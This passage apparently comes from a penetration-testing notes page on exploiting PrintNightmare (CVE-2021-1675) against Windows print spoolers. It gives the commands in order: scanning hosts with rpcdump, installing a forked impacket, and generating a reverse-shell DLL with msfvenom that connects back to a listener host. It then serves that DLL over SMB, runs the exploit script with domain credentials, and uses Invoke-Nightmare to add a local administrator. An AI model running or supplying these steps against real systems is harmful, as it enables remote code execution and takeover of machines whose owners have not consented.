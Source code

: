 ```
wmic product get name,version,vendor
```

## PrintNightmare (CVE-2021-1675)

{% embed url="https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html" %}

{% embed url="https://fahmifj.github.io/blog/testing-printnightmare-on-hackthebox/" %}

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

#### Install their version of Impacket

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

#### Create a malicious .dll&#x20;

{% code overflow="wrap" %}
```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.5 LPORT=443 -f dll > shell.dll
```
{% endcode %}

#### Host a smbserver

```
impacket-smbserver share . -smb2support
```

{% code overflow="wrap" %}
```python
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'

./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```
{% endcode %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

```powershell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```
